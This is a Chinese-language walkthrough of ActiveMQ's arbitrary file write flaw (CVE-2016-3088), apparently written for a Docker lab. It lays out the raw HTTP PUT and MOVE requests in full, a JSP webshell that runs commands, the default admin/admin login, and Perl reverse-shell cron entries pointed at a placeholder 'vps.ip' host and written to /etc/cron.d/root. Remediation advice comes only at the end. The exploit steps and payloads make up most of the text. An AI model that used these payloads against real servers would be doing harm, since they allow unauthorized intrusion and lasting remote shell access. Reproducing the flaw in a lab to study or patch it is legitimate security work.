










ActiveMQ任意文件写入漏洞（CVE-2016-3088）
介绍
简介
ActiveMQ的web控制台分三个应用，admin、api和fileserver，其中admin是管理员页面，api是接口，fileserver是储存文件的接口；admin和api都需要登录后才能使用，fileserver无需登录。
fileserver是一个RESTful API接口，我们可以通过GET、PUT、DELETE等HTTP请求对其中存储的文件进行读写操作，其设计目的是为了弥补消息队列操作不能传输、存储二进制文件的缺陷，但后来发现：
- 其使用率并不高
- 文件操作容易出现漏洞
影响版本
5.0.0~5.13.x
但ActiveMQ在 5.12.x~5.13.x 版本中，已经默认关闭了fileserver这个应用（你可以在conf/jetty.xml中开启）；在5.14.0版本以后，彻底删除了fileserver应用。
漏洞成因
本漏洞出现在fileserver应用中，漏洞原理其实非常简单，就是fileserver支持写入文件（但不解析jsp），同时支持移动文件（MOVE请求）。所以，只需要写入一个文件，然后使用MOVE请求将其移动到任意位置，造成任意文件写入漏洞。
文件写入有几种利用方法：
- 写入webshell
- 写入cron或ssh key等文件
- 写入jar或jetty.xml等库和配置文件
写入webshell的好处是，门槛低更方便，但前面也说了fileserver不解析jsp，admin和api两个应用都需要登录才能访问，所以有点鸡肋；写入cron或ssh key，好处是直接反弹拿shell，也比较方便，缺点是需要root权限；写入jar，稍微麻烦点（需要jar的后门），写入xml配置文件，这个方法比较靠谱，但有个鸡肋点是：我们需要知道activemq的绝对路径。
漏洞环境
1
2
| docker compose up -d
docker ps
|


环境监听61616端口和8161端口，其中8161为web控制台端口，本漏洞就出现在web控制台中。
访问http://your-ip:8161/看到web页面，说明环境已成功运行。

漏洞复现
写入webshell
写入webshell，需要写在admin或api应用中，而这俩应用都需要登录才能访问
可以尝试使用默认的ActiveMQ账号密码进行登录，账号密码均为admin
1.查看绝对路径
1）访问相应网页
1
| http://your-ip:8161/admin/test/systemProperties.jsp
|

2）有的版本有绝对路径泄露漏洞，构造不存在的地址
2.上传webshell
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
| PUT /fileserver/fuck.txt HTTP/1.1
Host: your-ip:8161
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
Upgrade-Insecure-Requests: 1
If-Modified-Since: Fri, 13 Feb 2015 17:54:40 GMT
Cache-Control: max-age=0
Content-Length: 327
<%@ page import="java.io.*"%>
<%
out.print("Hello</br>");
String strcmd=request.getParameter("cmd");
String line=null;
Process p=Runtime.getRuntime().exec(strcmd);
BufferedReader br=new BufferedReader(new InputStreamReader(p.getInputStream()));
while((line=br.readLine())!=null){
out.print(line+"</br>");
}
%>
|

3.移动到web目录下的api文件夹（/opt/activemq/webapps/api/shell.jsp）中
1
2
3
4
5
6
7
8
9
10
11
12
13
| MOVE /fileserver/fuck.txt HTTP/1.1
Destination: file:///opt/activemq/webapps/api/shell.jsp
Host: your-ip:8161
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
Upgrade-Insecure-Requests: 1
If-Modified-Since: Fri, 13 Feb 2015 17:54:40 GMT
Cache-Control: max-age=0
Content-Length: 0
|

4.访问webshell http://your-ip:8161/api/shell.jsp?cmd=id（需要登录admin/admin）

成功上传文件
写入crontab，自动化弹shell
利用条件：ActiveMQ是root运行。因为cron服务是默认启动的，所以这是一个最稳的方法。
Alpine 系统：写入 /etc/cron.d/root
1
2
| */1 * * * * root /usr/bin/perl -e 'use Socket;$i="vps.ip";$p=vps.port;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
##
|
ubuntu 系统：写入 /var/spool/cron/crontabs/root
需要注意的是，ubuntu 不需要在*后面加 root
1
| */1 * * * * perl -e 'use Socket;$i="vps.ip";$p=vps.port;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
|
1.上传cron配置文件（注意，换行一定要\n，不能是\r\n，否则crontab执行会失败）
1
2
3
4
5
6
7
8
9
10
11
12
13
| PUT /fileserver/cron.txt HTTP/1.1
Host: your-ip:8161
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
Upgrade-Insecure-Requests: 1
If-Modified-Since: Fri, 13 Feb 2015 17:54:40 GMT
Cache-Control: max-age=0
Content-Length: 254
*/1 * * * * root /usr/bin/perl -e 'use Socket;$i="vps.ip";$p=vps.port;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
##
|

2.将其移动到/etc/cron.d/root
1
2
3
4
5
6
7
8
9
10
11
12
13
| MOVE /fileserver/cron.txt HTTP/1.1
Destination: file:///etc/cron.d/root
Host: your-ip:8161
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
Upgrade-Insecure-Requests: 1
If-Modified-Since: Fri, 13 Feb 2015 17:54:40 GMT
Cache-Control: max-age=0
Content-Length: 0
|

上述两个请求都返回204了，说明写入成功。等待反弹shell:

修复建议
- ActiveMQ Fileserver 的功能在 5.14.0 及其以后的版本中已被移除。建议用户升级至 5.14.0 及其以后版本。
- 通过移除
conf/jetty.xml 的以下配置来禁用 ActiveMQ Fileserver 功能。
1
2
3
4
5
6
7
| <bean class="org.eclipse.jetty.webapp.WebAppContext">
<property name="contextPath" value="/fileserver" />
<property name="resourceBase" value="${activemq.home}/webapps/fileserver" />
<property name="logUrlOnStart" value="true" />
<property name="parentLoaderPriority" value="true" />
</bean>
|